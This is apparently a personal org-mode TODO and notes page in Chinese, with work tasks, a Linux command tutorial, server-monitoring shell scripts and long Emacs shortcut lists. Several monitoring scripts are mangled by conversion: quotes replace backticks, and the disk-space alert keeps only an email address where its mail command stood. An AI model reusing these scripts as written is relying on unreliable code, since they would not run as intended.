

My TODO List
Table of Contents
- 1. 工作
- 2. linux & emacs
- 3. orgmode
- 4. 网络安全
- 5. thinking in thinking
- 6. 日常
1 工作 ums
1.1 #+SEQ_TODO: 新疆电力调试
- 剩最后一家终端厂商：联迪
1.2 #+SEQ_TODO: 安徽维天资金归集项目 work
- 安徽验收附页邮件
- IC卡测试
1.3 DONE 江苏三六五网络 work
1.3.1 DONE 江苏三六五网络项目清分邮件
1.3.2 DONE 生准环产境模拟上线
1.3.3 邮件已发
上线失败，准生产环境主要邮箱未启动
1.3.4 DONE 修改江苏365上线手册
1.3.5 DONE 准生产环境上线模拟
1.3.6 TODO 江苏验收阶段邮件 ums
2 linux & emacs emacs linux
2.1 安装邮件客户mew
暂用thunderbird
2.2 十个你所不知道的Linux命令盘点
下面可能是你不曾用过后十个Linux的命令。相当的有用。 1）pgrep pgrep名字前有个p，我们可以猜到这和进程相关，又是grep，当然这是进程相关的grep命令。不过，这个命令主要是用来列举进程ID的。如： $ pgrep -u hchen 22441 22444 这个命令相当于： 1 ps -ef | egrep 'hchen' | awk '{print $2}' 2）pstree 这个命令可以以树形的方式列出进程。如下所示： [hchen@RHELSVR5 ~]$ pstree init-+-acpid |-auditd-+-python | `-{auditd} |-automount—4*[{automount}] |-backup.sh—sleep |-dbus-daemon |-events/0 |-events/1 |-hald—hald-runner—hald-addon-acpi |-httpd—10*[httpd] |-irqbalance |-khelper |-klogd |-ksoftirqd/0 |-ksoftirqd/1 |-kthread-+-aio/0 |-aio/1 |-ata/0 |-ata/1 |-ataaux |-cqueue/0 |-cqueue/1 |-kacpid |-kauditd |-kblockd/0 |-kblockd/1 |-kedac |-khubd |-6*[kjournald] |-kmirrord |-kpsmoused |-kseriod |-kswapd0 |-2*[pdflush] |-scsieh0 |-scsieh1 |-xenbus | `-xenwatch |-migration/0 |-migration/1 |-6*[mingetty] |-3*[multilog] |-mysqldsafe—mysqld—9*[{mysqld}] |-smartd |-sshd—sshd—sshd—bash—pstree |-svscanboot—svscan-+-3*[supervise—run] |-supervise—qmail-send-+-qmail-clean |-qmail-lspawn | `-qmail-rspawn | `-2*[supervise—tcpserver] |-syslogd |-udevd |-watchdog/0 |-watchdog/1 -xinetd 3）bc 这个命令主要是做一个精度比较高的数学运算的。比如开平方根等。下面是一个我们利用bc命令写的一个脚本（文件名：sqrt） #!/bin/bash if [ $# -ne 1 ] then echo 'Usage: sqrt number' exit 1 else echo -e "sqrt($1)\nquit\n" | bc -q -i fi 于是，我们可以这样使用这个脚本进行平方根运算： [hchen@RHELSVR5]$ ./sqrt 36 [hchen@RHELSVR5]$ ./sqrt 2.0000 1.4142 [hchen@RHELSVR5]$ ./sqrt 10.0000 4）split 如果你有一个很大的文件，你想把其分割成一些小的文件，那么这个命令就是干这件事的了。 [hchen@RHELSVR5 applebak]# ls -l largefile.tar.gz -rw-r–r– 1 hchen hchen 436774774 04-17 02:00 largefile.tar.gz [hchen@RHELSVR5 applebak]# split -b 50m largefile.tar.gz LF_ [hchen@RHELSVR5]# ls -l LF* -rw-r–r– 1 hchen hchen 52428800 05-10 18:34 LFaa -rw-r–r– 1 hchen hchen 52428800 05-10 18:34 LFab -rw-r–r– 1 hchen hchen 52428800 05-10 18:34 LFac -rw-r–r– 1 hchen hchen 52428800 05-10 18:34 LFad -rw-r–r– 1 hchen hchen 52428800 05-10 18:34 LFae -rw-r–r– 1 hchen hchen 52428800 05-10 18:35 LFaf -rw-r–r– 1 hchen hchen 52428800 05-10 18:35 LFag -rw-r–r– 1 hchen hchen 52428800 05-10 18:35 LFah -rw-r–r– 1 hchen hchen 17344374 05-10 18:35 LFai 文件合并只需要使用简单的合并就行了，如： 1 [hchen@RHELSVR5]# cat LF* >largefile.tar.gz 5）nl nl命令其它和cat命令很像，只不过它会打上行号。如下所示： [hchen@RHELSVR5 include]# nl stdio.h | head -n 10 1 /* Define ISO C stdio on top of C++ iostreams. 2 Copyright (C) 1991,1994-2004,2005,2006 Free Software Foundation, Inc. 3 This file is part of the GNU C Library. 4 The GNU C Library is free software; you can redistribute it and/or 5 modify it under the terms of the GNU Lesser General Public 6 License as published by the Free Software Foundation; either 7 version 2.1 of the License, or (at your option) any later version. 8 The GNU C Library is distributed in the hope that it will be useful, 6）mkfifo 熟悉Unix的人都应该知道这个是一个创建有名管道的系统调用或命令。平时，我们在命令行上使用竖线“|”把命令串起来是使用无命管道。而我们使用mkfifo则使用的是有名管道。下面是示例： 下面是创建一个有名管道： [hchen@RHELSVR5 ~]# mkfifo /tmp/hchenpipe [hchen@RHELSVR5 ~]# ls -l /tmp prw-rw-r– 1 hchen hchen 0 05-10 18:58 hchenpipe 然后，我们在一个shell中运行如下命令，这个命令不会返回，除非有人从这个有名管道中把信息读走。 [hchen@RHELSVR5 ~]# ls -al > /tmp/hchenpipe 我们在另一个命令窗口中读取这个管道中的信息：（其会导致上一个命令返回） 01 [hchen@RHELSVR5 ~]# head /tmp/hchenpipe 02 drwx—— 8 hchen hchen 4096 05-10 18:27 . 03 drwxr-xr-x 7 root root 4096 03-05 00:06 .. 04 drwxr-xr-x 3 hchen hchen 4096 03-01 18:13 backup 05 -rw-—— 1 hchen hchen 721 05-05 22:12 .bashhistory 06 -rw-r–r– 1 hchen hchen 24 02-28 22:20 .bashlogout 07 -rw-r–r– 1 hchen hchen 176 02-28 22:20 .bashprofile 08 -rw-r–r– 1 hchen hchen 124 02-28 22:20 .bashrc 09 -rw-r–r– 1 root root 14002 03-07 00:29 index.htm 10 -rw-r–r– 1 hchen hchen 31465 03-01 23:48 index.php 7）ldd 这个命令可以知道你的一个可执行文件所使用了动态链接库。如： 01 [hchen@RHELSVR5 ~]# ldd /usr/bin/java 02 linux-gate.so.1 => (0x00cd9000) 03 libgij.so.7rh => /usr/lib/libgij.so.7rh (0x00ed3000) 04 libgcj.so.7rh => /usr/lib/libgcj.so.7rh (0x00ed6000) 05 libpthread.so.0 => /lib/i686/nosegneg/libpthread.so.0 (0x00110000) 06 librt.so.1 => /lib/i686/nosegneg/librt.so.1 (0x009c8000) 07 libdl.so.2 => /lib/libdl.so.2 (0x008b5000) 08 libz.so.1 => /usr/lib/libz.so.1 (0x00bee000) 09 libgccs.so.1 => /lib/libgccs.so.1 (0x00aa7000) 10 libc.so.6 => /lib/i686/nosegneg/libc.so.6 (0x0022f000) 11 libm.so.6 => /lib/i686/nosegneg/libm.so.6 (0x00127000) 12 /lib/ld-linux.so.2 (0x00214000) 8）col 这个命令可以让你把man文件转成纯文本文件。如下示例：
9）xmlwf 这个命令可以让你检查一下一个XML文档是否是所有的tag都是正常的。如： 1 [hchen@RHELSVR5 ~]# curl 'http://coolshell.cn/?feed=rss2' > cocre.xml 2 % Total % Received % Xferd Average Speed Time Time Time Current 3 Dload Upload Total Spent Left Speed 4 100 64882 0 64882 0 0 86455 0 –:–:– –:–:– –:–:– 2073k 5 [hchen@RHELSVR5 ~]# xmlwf cocre.xml 6 [hchen@RHELSVR5 ~]# perl -i -pe 's@<link>@<br>@g' cocre.xml 7 [hchen@RHELSVR5 ~]# xmlwf cocre.xml 8 cocre.xml:13:23: mismatched tag 10）lsof 可以列出打开了的文件。 01 [root@RHELSVR5 ~]# lsof | grep TCP 02 httpd 548 apache 4u IPv6 14300967 TCP *:http (LISTEN) 03 httpd 548 apache 6u IPv6 14300972 TCP *:https (LISTEN) 04 httpd 561 apache 4u IPv6 14300967 TCP *:http (LISTEN) 05 httpd 561 apache 6u IPv6 14300972 TCP *:https (LISTEN) 06 sshd 1764 root 3u IPv6 4993 TCP *:ssh (LISTEN) 07 tcpserver 8965 root 3u IPv4 153795500 TCP *:pop3 (LISTEN) 08 mysqld 10202 mysql 10u IPv4 73819697 TCP *:mysql (LISTEN) 09 sshd 10735 root 3u IPv6 160731956 TCP 210.51.0.232:ssh->123.117.239.68:31810 (ESTABLISHED) 10 sshd 10767 hchen 3u IPv6 160731956 TCP 210.51.0.232:ssh->123.117.239.68:31810 (ESTABLISHED) 11 vsftpd 11095 root 3u IPv4 152157957 TCP *:ftp (LISTEN)
2.3 几个常用的Linux监控脚本
最近时不时有互联网的朋友问我关于服务器监控方面的问题，问常用的服务器监控除了用开源软件，比如：cacti，nagios监控外是否可以自己写shell脚本呢？根据自己的需求写出的shell脚本更能满足需求，更能细化主机监控的全面性。 下面是我常用的几个主机监控的脚本，大家可以根据自己的情况再进行修改，希望能给大家一点帮助。 1、查看主机网卡流量 #!/bin/bash #network #Mike.Xu while : ; do time='date +%m"-"%d" "%k":"%M' day='date +%m"-"%d' rxbefore='ifconfig eth0|sed -n "8"p|awk '{print $2}'|cut -c7-' txbefore='ifconfig eth0|sed -n "8"p|awk '{print $6}'|cut -c7-' sleep 2 rxafter='ifconfig eth0|sed -n "8"p|awk '{print $2}'|cut -c7-' txafter='ifconfig eth0|sed -n "8"p|awk '{print $6}'|cut -c7-' rxresult=$[(rxafter-rxbefore)/256] txresult=$[(txafter-txbefore)/256] echo "$time NowInSpeed: "$rxresult"kbps NowOUtSpeed: "$txresult"kbps" sleep 2 done 2、系统状况监控 #!/bin/sh #systemstat.sh #Mike.Xu IP=192.168.1.227 top -n 2| grep "Cpu" >>./temp/cpu.txt free -m | grep "Mem" >> ./temp/mem.txt df -k | grep "sda1" >> ./temp/drivesda1.txt #df -k | grep sda2 >> ./temp/drivesda2.txt df -k | grep "/mnt/storage0" >> ./temp/mntstorage0.txt df -k | grep "/mnt/storagepic" >> ./temp/mntstoragepic.txt time=`date +%m"."%d" "%k":"%M` connect=`netstat -na | grep "219.238.148.30:80" | wc -l` echo "$time $connect" >> ./temp/connectcount.txt 3、监控主机的磁盘空间,当使用空间超过90％就通过发mail来发警告 #!/bin/bash #monitor available disk space SPACE='df | sed -n '/ \ / $ / p' | gawk '{print $5}' | sed 's/%//' if [ $SPACE -ge 90 ] then fty89@163.com fi 4、 监控CPU和内存的使用情况 #!/bin/bash #script to capture system statistics OUTFILE=/home/xu/capstats.csv DATE='date +%m/%d/%Y' TIME='date +%k:%m:%s' TIMEOUT='uptime' VMOUT='vmstat 1 2' USERS='echo $TIMEOUT | gawk '{print $4}' ' LOAD='echo $TIMEOUT | gawk '{print $9}' | sed "s/,//' ' FREE='echo $VMOUT | sed -n '/[0-9]/p' | sed -n '2p' | gawk '{print $4} ' ' IDLE='echo $VMOUT | sed -n '/[0-9]/p' | sed -n '2p' |gawk '{print $15}' ' echo "$DATE,$TIME,$USERS,$LOAD,$FREE,$IDLE" >> $OUTFILE 5、全方位监控主机 #!/bin/bash # checkxu.sh # 0 * * * * /home/checkxu.sh DAT="`date +%Y%m%d`" HOUR="`date +%H`" DIR="/home/oslog/host_${DAT}/${HOUR}" DELAY=60 COUNT=60 # whether the responsible directory exist if ! test -d ${DIR} then /bin/mkdir -p ${DIR} fi # general check export TERM=linux /usr/bin/top -b -d ${DELAY} -n ${COUNT} > ${DIR}/top_${DAT}.log 2>&1 & # cpu check /usr/bin/sar -u ${DELAY} ${COUNT} > ${DIR}/cpu_${DAT}.log 2>&1 & #/usr/bin/mpstat -P 0 ${DELAY} ${COUNT} > ${DIR}/cpu0_${DAT}.log 2>&1 & #/usr/bin/mpstat -P 1 ${DELAY} ${COUNT} > ${DIR}/cpu1_${DAT}.log 2>&1 & # memory check /usr/bin/vmstat ${DELAY} ${COUNT} > ${DIR}/vmstat_${DAT}.log 2>&1 & # I/O check /usr/bin/iostat ${DELAY} ${COUNT} > ${DIR}/iostat_${DAT}.log 2>&1 & # network check /usr/bin/sar -n DEV ${DELAY} ${COUNT} > ${DIR}/net_${DAT}.log 2>&1 & #/usr/bin/sar -n EDEV ${DELAY} ${COUNT} > ${DIR}/netedev_${DAT}.log 2>&1 & 放在crontab里每小时自动执行： 0 * * * * /home/checkxu.sh 这样会在/home/oslog/hostyyyymmdd/hh目录下生成各小时cpu、内存、网络，IO的统计数据。 如果某个时间段产生问题了，就可以去看对应的日志信息，看看当时的主机性能如何。
2.4 linux下查看CPU、内存、硬盘方法
一、CPU大小 [root@idc ~]# cat /proc/cpuinfo |grep "model name" && cat /proc/cpuinfo |grep "physical id" model name: Intel(R) Xeon(TM) CPU 2.80GHz model name: Intel(R) Xeon(TM) CPU 2.80GHz model name: Intel(R) Xeon(TM) CPU 2.80GHz model name: Intel(R) Xeon(TM) CPU 2.80GHz physical id : 0 physical id : 0 physical id : 3 physical id : 3 [root@idc ~]#
说明：Linux下可以在/proc/cpuinfo中看到每个cpu的详细信息。但是对于双核的cpu，在cpuinfo中会看到两个cpu。常常会让人误以为是两个单核的cpu。
其实应该通过Physical Processor ID来区分单核和双核。而Physical Processor ID可以从cpuinfo或者dmesg中找到. flags 如果有 ht 说明支持超线程技术 判断物理CPU的个数可以查看physical id 的值，相同则为同一个物理CPU
可以看到上面，这台机器有两个双核的CPU，ID分别是0和3，大小是2.8G。
二、内存大小 [root@xbidc ~]# cat /proc/meminfo |grep MemTotal MemTotal: 1034612 kB [root@xbidc ~]# 三、硬盘大小 [root@xbidc ~]# fdisk -l |grep Disk Disk /dev/sda: 300.0 GB, 300000000000 bytes [root@xbidc ~]#
2.5 显示网络流量
watch -n 1 "/sbin/ifconfig eth0 | grep bytes" watch -n 1 "/sbin/ifconfig eth0 | grep 字节"
2.6 快捷键总结
2.6.1 文件操作
C-x C-f 打开文件,出现提示时输入/username@host:filepath可编辑FTP文件 C-x C-v 打开一个文件，取代当前缓冲区 C-x C-s 保存文件 C-x C-w 存为新文件 C-x i 插入文件 C-x C-q 切换为只读或者读写模式 C-x C-c 退出Emacs
2.6.2 编辑操作
C-f 前进一个字符 C-b 后退一个字符 M-f 前进一个字 M-b 后退一个字 C-a 移到行首 C-e 移到行尾 M-a 移到句首 M-e 移到句尾 C-p 后退一行 C-n 前进一行 M-x goto-line 跳到指定行 C-v 向下翻页 M-v 向上翻页 M-< 缓冲区头部 M-> 缓冲区尾部
C-M-f 向前匹配括号 C-M-b 向后匹配括号
C-l 当前行居中
M-n or C-u n 重复操作随后的命令n次 C-u 重复操作随后的命令4次 C-u C-u 重复操作随后的命令8次 C-x ESC ESC 执行历史命令记录，M-p选择上一条命令，M-n选择下一条命令
C-d 删除一个字符 M-d 删除一个字 C-k 删除一行 M-k 删除一句 C-w 删除标记区域
C-y 粘贴删除的内容
注意：C-y可以粘贴连续C-k删除的内容；先按C-y，然后按M-y可以选择粘贴被删除的内容
C-@ 标记开始区域 C-x h 标记所有文字 C-x C-x 交换光标位置和区域标记区开头 M-w 复制标记区域
C-_ or C-x u 撤消操作
2.6.3 执行SHELL命令
M-x shell 打开SHELL M-! 执行SHELL命令 (shell-command) M-1 M-! 执行SHELL命令,命令输出插入光标位置,不打开新输出窗口 M-| 针对某一特定区域执行命令(shell-command-on-region), 比如 C-x h M-|uuencode
2.6.4 窗口操作
C-x 0 关闭本窗口 C-x 1 只留下一个窗口 C-x 2 垂直均分窗口 C-x 3 水平均分窗口 C-x o 切换到别的窗口 C-x s 保存所有窗口的缓冲 C-x b 选择当前窗口的缓冲区 C-x ^ 纵向扩大窗口 C-x } 横向扩大窗口
2.6.5 缓冲区列表操作
C-x C-b 打开缓冲区列表 d or k 标记为删除 ~ 标记为未修改状态 % 标记为只读 s 保存缓冲 u 取消标记 x 执行标记的操作
f 在当前窗口打开该缓冲区 o 在其他窗口打开该缓冲区
2.6.6 目录操作
C-x d 打开目录模式 s 按日期/文件名排序显示 v 阅读光标所在的文件 q 退出阅读的文件 d 标记为删除 x 执行标记 D 马上删除当前文件 C 拷贝当前文件 R 重名名当前文件
- 新建文件夹
Z 压缩文件 ! 对光标所在的文件执行SHELL命令 g 刷新显示 i 在当前缓冲区的末尾插入子目录的内容
[n]m 标记光标所在的文件，如果指定n，则从光标所在的文件起后n个文件被标记 [n]u 取消当前光标标记的文件，n的含义同上 t 反向标记文件 %-m 正则标记
q 退出目录模式
说明：在目录模式中，如果输入!，在命令行中包含*或者?，有特殊的含义。*匹配当前光标所在的文件和所有标记的文件，?分别在每一个标记的文件上执行该命令。
2.6.7 程序编译
M-x compile 执行编译操作 M-x gdb GDB排错 M-x dbx DBX排错 M-x xdb XDB排错 M-x sdb SDB排错
2.6.8 搜索模式
C-s key 向前搜索 C-s 查找下一个 ENTER 停止搜索 C-r key 反向搜索 C-s C-w 以光标所在位置的字为关键字搜索 C-s C-s 重复上次搜索 C-r C-r 重复上次反向搜索 C-s ENTER C-w 进入单词搜索模式 C-r ENTER C-w 进入反向单词搜索模式 M-x replace-string ENTER search-string ENTER 替换 M-% search-string ENTER replace-string ENTER 交互替换 C-r 在进入查找/替换模式后，该命令进入迭代编辑模式 C-M-x 退出迭代编辑模式，返回到查找/替换模式 C-M-s 向前正则搜索 C-M-r 向后正则搜索 C-M-% 正则交互替换
2.6.9 SHELL模式
C-c C-c 相当于Bash下的C-c C-c C-z 相当于Bash下的C-z C-c C-d 相当于Bash下的C-d M-p 执行前一条命令 C-n 执行下一条命令 C-c C-o 删除最后一条命令产生的输出 C-c C-r 屏幕滚动到最后一条命令输出的开头 C-c C-e 屏幕滚动到最后一套命令输出的结尾 C-c C-p 查看前一条命令的输出 C-c C-n 查看后一条命令的输出
2.6.10 打印资料
M-x print-buffer 先使用pr,然后使用lpr M-x lpr-buffer 直接使用lpr M-x print-region M-x lpr-region
2.6.11 收发邮件
M-x mail 发送邮件, C-c C-s 发送,C-c C-c 发送并退出 M-x rmail 接受邮件
参考资料：
O'Reilly, Emacs 3rd Edition
Linux/BSD Marchday's blog Add new comment Comments
2.6.12 Using Other Windows
C-x o Select another window (other-window). C-M-v Scroll the next window (scroll-other-window). Mouse-1 Mouse-1, in the text area of a window, selects the window and moves point to the position clicked. Clicking in the mode line selects the window without moving point in it. With the keyboard, you can switch windows by typing C-x o (other-window). That is an o, for “other”, not a zero. When there are more than two windows, this command moves through all the windows in a cyclic order, generally top to bottom and left to right. After the rightmost and bottommost window, it goes back to the one at the upper left corner. A numeric argument means to move several steps in the cyclic order of windows. A negative argument moves around the cycle in the opposite order. When the minibuffer is active, the minibuffer is the last window in the cycle; you can switch from the minibuffer window to one of the other windows, and later switch back and finish supplying the minibuffer argument that is requested. See Minibuffer Edit.
The usual scrolling commands (see Display) apply to the selected window only, but there is one command to scroll the next window. C-M-v (scroll-other-window) scrolls the window that C-x o would select. It takes arguments, positive and negative, like C-v. (In the minibuffer, C-M-v scrolls the help window associated with the minibuffer, if any, rather than the next window in the standard cyclic order; see Minibuffer Edit.)
If you set mouse-autoselect-window to a non-nil value, moving the mouse over a different window selects that window. This feature is off by default.
2.6.13 Emacs窗口管理
1.Buffer的管理
1.单个Buffer处理
Buffer的名字都是包含在**当中的 可以把buffer中的那内容C-x C-w写入到文件中
2.多个buffer处理
| C-x b | 显示Buffer列表,选中某一个Buffer按Enter进入Buffer编辑 |
| C-x k | 删除Buffer |
2.Emacs窗口管理
| C-x 2 | 垂直拆分窗口 |
| C-x 3 | 水平拆分窗口 |
| C-x o | 在窗口间切换 |
| C-x 1 | 删除所有窗口,只剩下本窗口 |
| C-x 0 | 删除本窗口 |
3.Emacs Frame管理(只适合有图形界面的)
| C-x 5 o | 移动到另一个frame |
| C-x 5 2 | 新建一个frame |
| C-x 5 0 | 删除当前的frame |
| C-x 5 1 | 只留下当前frame |
| C-x 5 f | 在另一个frame中查找文件 |
| C-x 5 r | 在另一个frame中查找只读文件 |
| C-x 5 b | 产生frame并在里面显示buffer |
2.6.14 other
Emacs常用快捷键列表 作为一位Emacser，备这样一份常用的快捷键列表还是很有用的。转载自：http://aifreedom.comC = Control M = Meta = Alt|EscDel = Backspace 基本快捷键(Basic) 光标移动基本快捷键(Basic Movement)编辑(Editint) 重要快捷键(Important)在线帮助(Online-Help)搜索/替换(Seach/Replace) 使用正则表达式(Regular expression)搜索/替换窗口命令(Window Commands)书签命令(Bookmark commands)Shell DIRectory EDitor (dired)TelnetText 编程(Programming) 版本控制(Version Control) 基本快捷键(Basic) C-x C-f “find”文件, 即在缓冲区打开/新建一个文件C-x C-s 保存文件 C-x C-w 使用其他文件名另存为文件C-x C-v 关闭当前缓冲区文件并打开新文件 C-x i 在当前光标处插入文件 C-x b 新建/切换缓冲区C-x C-b 显示缓冲区列表C-x k 关闭当前缓冲区C-z 挂起emacsC-X C-c 关闭emacs 光标移动基本快捷键(Basic Movement) C-f 后一个字符 C-b 前一个字符C-p 上一行C-n 下一行 2011-4-12Emacs常用快捷键列表 krfantasy.net.ru/EmacsShortcuts.html 1/9
M-f 后一个单词M-b 前一个单词C-a 行首C-e 行尾C-v 向下翻一页M-v 向上翻一页M-< 到文件开头M-> 到文件末尾 编辑(Editint) M-n 重复执行后一个命令n次C-u 重复执行后一个命令4次C-u n 重复执行后一个命令n次C-d 删除(delete)后一个字符M-d 删除后一个单词Del 删除前一个字符M-Del 删除前一个单词C-k 移除(kill)一行 C-Space 设置开始标记 (例如标记区域) C-@ 功能同上, 用于C-Space被操作系统拦截的情况C-w 移除(kill)标记区域的内容M-w 复制标记区域的内容 C-y 召回(yank)复制/移除的区域/行M-y 召回更早的内容 (在kill缓冲区内循环)C-x C-x 交换光标和标记C-t 交换两个字符的位置M-t 交换两个单词的位置C-x C-t 交换两行的位置 M-u 使从光标位置到单词结尾处的字母变成大写 2011-4-12 Emacs常用快捷键列表 krfantasy.net.ru/EmacsShortcuts.html 2/9
M-l 与M-u相反 M-c 使从光标位置开始的单词的首字母变为大写 重要快捷键(Important) C-g 停止当前运行/输入的命令C-x u 撤销前一个命令 M-x revert-buffer RETURN (照着这个输入)撤销上次存盘后所有改动M-x recover-file RETURN 从自动存盘文件恢复 M-x recover-session RETURN 如果你编辑了几个文件, 用这个恢复 在线帮助(Online-Help) C-h c 显示快捷键绑定的命令 C-h k 显示快捷键绑定的命令和它的作用C-h l 显示最后100个键入的内容C-h w 显示命令被绑定到哪些快捷键上C-h f 显示函数的功能C-h v 显示变量的含义和值 C-h b 显示当前缓冲区所有可用的快捷键C-h t 打开emacs教程C-h i 打开info阅读器C-h C-f 显示emacs FAQC-h p 显示本机Elisp包的信息 搜索/替换(Seach/Replace) C-s 向后搜索C-r 向前搜索 C-g 回到搜索开始前的位置(如果你仍然在搜索模式中)M-% 询问并替换(query replace)Space或y 替换当前匹配Del或n 不要替换当前匹配 2011-4-12 Emacs常用快捷键列表 krfantasy.net.ru/EmacsShortcuts.html 3/9
. 仅仅替换当前匹配并退出(替换), 替换并暂停(按Space或y继续) ! 替换以下所有匹配 回到上一个匹配位置RETURN或q 退出替换 使用正则表达式(Regular expression)搜索/替换 可在正则表达式中使用的符号: 行首$ 行尾. 单个字符 .* 任意多个(包括没有)字符\< 单词开头 \> 单词结尾 [] 括号中的任意一个字符(例如[a-z]表示所有的小写字母)M C-s RETURN 使用正则表达式向后搜索M C-r RETURN 使用正则表达式向前搜索C-s 增量搜索C-s 重复增量搜索C-r 向前增量搜索C-r 重复向前增量搜索 M-x query-replace-regexp 使用正则表达式搜索并替换 窗口命令(Window Commands) C-x 2 水平分割窗格C-x 3 垂直分割窗格C-x o 切换至其他窗格C-x 0 关闭窗格 C-x 1 关闭除了光标所在窗格外所有窗格C-x 扩大窗格 M-x shrink-window 缩小窗格 2011-4-12 Emacs常用快捷键列表 krfantasy.net.ru/EmacsShortcuts.html 4/9
M C-v 滚动其他窗格内容 C-x 4 f 在其他窗格中打开文件C-x 4 0 关闭当前缓冲区和窗格C-x 5 2 新建窗口(frame)C-x 5 f 在新窗口中打开文件C-x 5 o 切换至其他窗口C-x 5 0 关闭当前窗口
书签命令(Bookmark commands) C-x r m 在光标当前位置创建书签C-x r b 转到书签 M-x bookmark-rename 重命名书签M-x bookmark-delete 删除书签M-x bookmark-save 保存书签C-x r l 列出书签清单d 标记等待删除Del 取消删除标记x 删除被标记的书签r 重命名 s 保存列表内所有书签f 转到当前书签指向的位置m 标记在多窗口中打开 v 显示被标记的书签(或者光标当前位置的书签)t 切换是否显示路径列表w 显示当前文件路径q 退出书签列表 M-x bookmark-write 将所有书签导出至指定文件M-x bookmark-load 从指定文件导入书签
Shell M-x shell 打开shell模式 C-c C-c 类似unix里的C-c(停止正在运行的程序)C-d 删除光标后一个字符C-c C-d 发送EOF C-c C-z 挂起程序(unix下的C-z)M-p 显示前一条命令M-n 显示后一条命令 DIRectory EDitor (dired) C-x d 打开diredC(大写C) 复制d 标记等待删除D 立即删除 e或f 打开文件或目录g 刷新当前目录 G 改变文件所属组(chgrp) k 从屏幕上的列表里删除一行(不是真的删除)m 用*标记 n 光标移动到下一行 o 在另一个窗格打开文件并移动光标C-o 在另一个窗格打开文件但不移动光标P 打印文件q 退出dired Q 在标记的文件中替换 R 重命名文件 u 移除标记 v 显示文件内容 x 删除有 D标记的文件 Z 压缩/解压缩文件
M-Del 移除标记(默认为所有类型的标记) ~ 标记备份文件(文件名有~的文件)等待删除# 标记自动保存文件(文件名形如#name#)等待删除/ 用标记所有文件夹(用C-u */n移除标记) = 将当前文件和标记文件(使用C-@标记而不是dired的m标记)比较M-= 将当前文件和它的备份比较! 对当前文件应用shell命令 M-} 移动光标至下一个用*或D标记的文件M-{ 移动光标至上一个用*或D标记的文件% d 使用正则表达式标记文件等待删除% m 使用正则表达式标记文件为*+ 新建文件夹 移动光标至后一个文件夹< 移动光标至前一个文件夹s 切换排序模式(按文件名/日期)或许把这个命令归入这一类也很合适:M-x speedbar 打开一个独立的目录显示窗口 Telnet M-x telnet 打开telnet模式 C-d 删除后一个字符或发送EOFC-c C-c 停止正在运行的程序(和unix下的C-c类似)C-c C-d 发送EOF C-c C-o 清除最后一个命令的输出C-c C-z 挂起正在运行的命令C-c C-u 移除前一行M-p 显示前一条命令 Text 只能在text模式里使用M-s 使当前行居中
M-S 使当前段落居中 M-x center-region 使被选中的区域居中 宏命令(Macro-commands)C-x ( 开始定义宏 C-x ) 结束定义宏 C-x e 运行最近定义的宏M-n C-x e 运行最近定义的宏n次 M-x name-last-kbd-macro 给最近定义的宏命名(用来保存)M-x insert-kbd-macro 将已命名的宏保存到文件M-x load-file 载入宏 编程(Programming) M C-\ 自动缩进光标和标记间的区域M-m 移动光标到行首第一个(非空格)字符M- 将当前行接到上一行末尾处M-; 添加缩进并格式化的注释C, C++和Java模式 M-a 移动光标到声明的开始处M-e 移动光标到声明的结尾处M C-a 移动光标到函数的开始处M C-e 移动光标到函数的结尾处 C-c RETURN 将光标移动到函数的开始处并标记到结尾处 C-c C-q 根据缩进风格缩进整个函数 C-c C-a 切换自动换行功能 C-c C-d 一次性删除光标后的一串空格(greedy delete) 为了实现下面的一些技术, 你需要在保存源代码的目录里运行”etags.c .h .cpp”(或者源代码的其他的扩展名)M-.(点) 搜索标签 M-x tags-search ENTER 在所有标签里搜索(使用正则表达式)M-,(逗号) 在tags-search里跳至下一个匹配处 M-x tags-query-replace 在设置过标签的所有文件里替换文本 GDB(调试器)M-x gdb 在另一个的窗格中打开gdb
版本控制(Version Control) C-x v d 显示当前目录下所有注册过的文件(show all registered files in this dir) C-x v = 比较不同版本间的差异(show diff between versions) C-x v u 移除上次提交之后的更改(remove all changes since last checkin) C-x v ~ 在不同窗格中显示某个版本(show certain version in different window) C-x v l 打印日志(print log) C-x v i 标记文件等待添加版本控制(mark file for version control add) C-x v h 给文件添加版本控制文件头(insert version control header into file) C-x v r 获取命名过的快照(check out named snapshot) C-x v s 创建命名的快照(create named snapshot) C-x v a 创建gnu风格的更改日志(create changelog file in gnu-style)
2.7 emacs Q&A
Q:如何使用gdb设置断点的时侯让emacs高亮源代码那一行？
A:设断点是 C-x space
ecb可以到这里下载：http://ecb.sourceforge.net/
Q:编辑c++文件时，现在M-;用的是//形式的注释 我想用/**/的 怎么办 ?
A:
- M-x c-mode
2.(defun my-c-comment () (interactive) (insert "* *" (backward-char 3)) (global-unset-key "\M-;" (global-set-key "\M-;" 'my-c-comment)
Q:Emacs 和 XEmacs 的区别?
A:http://www.xemacs.org/About/XEmacsVsGNUemacs.html
最新emacs for windows的下载地址 http://ftp.gnu.org/gnu/windows/emacs/
Q:想在打开文件的时候就 auto indent ，不要老按 TAB 键，.emacs 怎样写?
A: (global-set-key "\C-m" 'reindent-then-newline-and-indent) 或者这样： (add-hook 'c-mode-common-hook (lambda () (define-key c-mode-map "\C-m" 'reindent-then-newline-and-indent)))
Q:我的是21.3.1，ecb2.27。我的ecb不支持鼠标双击阿，不知道大家的ecb是什么版本的，能不能支持鼠标双击，或者用快捷键切换到ecb窗口?
A:快捷键有啊。好些是C-c , g m 就调到methods窗口。g d 就goto directorey 窗口， 说实话，我觉得ecb窗口跳转很不方便。不如speedbar，只要设置一下speedbar-get-focus的快捷键，这个是可以 toggle的。而且speedbar上该有的都有，成员函数列表都在上面。按 f 就跳到 file mode，基本ecb有的它都有了。
Q:ecb有没有windows版本的?
这些东西没有什么平台一说，都是elisp语言，用emacs byte-compile一下就可以了。但是我认为ecb的跳转很麻烦。
Q:我在emscs中打开了几个文件进行编辑，我要关闭缓存中某一个文件应当怎样操作？
A:1C-x k A2:c-x c-b 在要关闭的buffer的那行 d, 在x就ok了
Q:我想在打开文件的时候就 auto indent
A:你可以C-x h 选中所有内容，然后C-M \ 就可以了。
Q:不想要emacs de工具栏,怎样让它不显示?
